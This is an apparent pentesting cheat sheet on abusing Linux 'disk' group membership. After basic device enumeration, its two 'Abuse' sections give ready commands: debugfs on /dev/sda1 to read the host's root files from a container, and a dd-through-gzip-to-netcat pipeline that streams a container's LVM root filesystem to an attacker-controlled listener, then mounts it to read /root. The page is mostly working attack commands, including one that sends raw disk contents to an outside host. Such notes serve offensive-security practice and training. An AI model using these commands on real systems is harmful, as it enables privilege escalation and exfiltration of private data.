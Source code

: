 ```yaml
---
title: "disk group"
date: 2024-7-2
tags: ["disk", "mount", "backup", "privilege read", "container", "lvm"]
---
```


### Basic

<div>

```console
# Show devices
lsblk
```

```console
# Device attributes
blkid
```

```console
# Show swap on blk
swapon -s
```

```console
# Filesystem info
cat /etc/fstab
```

</div>

<br>

---

### Abuse #1: Read host's filesystem from container (root)

<div>

```console
# Open target device
debugfs /dev/sda1
```

```console
# Exploit
ls /root
```

</div>

<br>

---

### Abuse #2: Read container's filesystem from host

<div>

```console
# Show LVM mappings
ls -l /dev/mapper/
```

```console
# In our local machine
nc -lvnp <LOCAL_PORT> > dm-0.gz
```

```console
# Exfil filesystem (target container rootfs, e.g. dm-0)
dd if=/dev/dm-0 | gzip -1 - | nc <LOCAL_IP> <LOCAL_PORT>
```

```console
# Extract dm-0
gunzip dm-0.gz
```

```console
# Mount the filesystem
sudo mount dm-0-orig /mnt/ 
```

```console
# Privilege read
ls /mnt/root/
```

<small>*Note: can take a long time to transfer*</small>

</div>

<br>